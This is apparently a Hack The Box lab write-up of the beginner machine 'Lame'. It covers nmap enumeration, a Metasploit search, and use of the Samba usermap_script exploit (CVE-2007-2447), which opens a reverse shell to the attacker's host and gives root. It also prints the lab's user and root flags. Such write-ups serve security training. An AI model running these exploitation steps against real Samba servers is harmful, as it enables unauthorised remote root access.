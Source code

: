 ```yaml
---
layout: post
title: Lame - Hackthebox
date: 2019-10-03
Author: Dark0
tags: [sample, document]
comments: true
toc: false
pinned: true
---
```


### Lame is a beginner box. With basic enumeration and some research you will get user and the root pretty easily.

![Box](https://i.ibb.co/z7wqbNQ/Captura-de-tela-em-2019-10-03-17-30-29.png)


# ENUMERATION

### I'll start with a basic enumeration, to do that I used nmap with flags -T4 -A -v

```
┌─[root@parrot]─[~/Documentos/htb/boxes/lame]
└──╼ #nmap -T4 -A -v 10.10.10.3

```

### We find port 21, 22, 139 and 445 open

```
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.10
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Arris TG562G/CT cable modem (92%), Dell Integrated Remote Access Controller (iDRAC5) (92%), Dell Integrated Remote Access Controller (iDRAC6) (92%), Linksys WET54GS5 WAP, Tranzeo TR-CPQ-19f WAP, or Xerox WorkCentre Pro 265 printer (92%), Linux 2.4.21 - 2.4.31 (likely embedded) (92%), Citrix XenServer 5.5 (Linux 2.6.18) (92%), Linux 2.6.18 (ClarkConnect 4.3 Enterprise Edition) (92%), Linux 2.6.8 - 2.6.30 (92%), Dell iDRAC 6 remote access controller (Linux 2.6) (92%), Linksys WRV54G WAP (92%)
No exact OS matches for host (test conditions non-ideal).
Uptime guess: 0.076 days (since Thu Oct  3 15:52:27 2019)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=192 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 4h00m23s, deviation: 0s, median: 4h00m23s
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   NetBIOS computer name: 
|   Workgroup: WORKGROUP\x00
|_  System time: 2019-10-03T16:41:57-04:00
|_smb2-time: Protocol negotiation failed (SMB2)


```

### I've tried exploit port 21, vsftpd 2.3.4 is indeed vulnerable but I wasn't successful. So I realized that Samba 3.0.20 was vulnerable too. I did search about samba in metasploit finding many results

```
msf5 > search samba 3.0.20

Matching Modules
================

   #   Name                                                   Disclosure Date  Rank       Check  Description
   -   ----                                                   ---------------  ----       -----  -----------
   1   auxiliary/admin/http/wp_easycart_privilege_escalation  2015-02-25       normal     Yes    WordPress WP EasyCart Plugin Privilege Escalation
   11  exploit/linux/samba/lsa_transnames_heap                2007-05-14       good       Yes    Samba lsa_io_trans_names Heap Overflow
   12  exploit/linux/samba/setinfopolicy_heap                 2012-04-10       normal     Yes    Samba SetInformationPolicy AuditEventsInfo Heap Overflow
   13  exploit/linux/samba/trans2open                         2003-04-07       great      No     Samba trans2open Overflow (Linux x86)
   14  exploit/multi/samba/nttrans                            2003-04-07       average    No     Samba 2.2.2 - 2.2.6 nttrans Buffer Overflow
   15  exploit/multi/samba/usermap_script                     2007-05-14       excellent  No     Samba "username map script" Command Execution
   16  exploit/osx/samba/lsa_transnames_heap                  2007-05-14       average    No     Samba lsa_io_trans_names Heap Overflow

   
```
# EXPLOITATION

### Then I've used the exploit/multi/samba/usermap_script module because this version of samba is vulnerable. (CVE-2007–2447)

```
msf5 exploit(multi/samba/usermap_script) > set RHOSTS 10.10.10.3
RHOSTS => 10.10.10.3
msf5 exploit(multi/samba/usermap_script) > exploit

[*] Started reverse TCP double handler on 10.10.14.10:4444 
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo r43tyRSiXyHwgK4g;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "r43tyRSiXyHwgK4g\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (10.10.14.10:4444 -> 10.10.10.3:48359) at 2019-10-03 18:45:37 -0300

python -c 'import pty;pty.spawn("/bin/bash")' 
root@lame:/# whoami
whoami
root
root@lame:/# cat /home/makis/user.txt
cat /home/makis/user.txt
69454a937d94f5f0225ea00acd2e84c5
root@lame:/# cat ~/root.txt
cat ~/root.txt
92caac3be140ef409e45721348a4e9df
root@lame:/# 

```
### I used python -c ‘import pty;pty.spawn(“/bin/bash”)’ to spawn a tty shell and done
### box owned!! this box is very easy, but for a beginner it's definitely a great box.

### Stay in peace, guys!



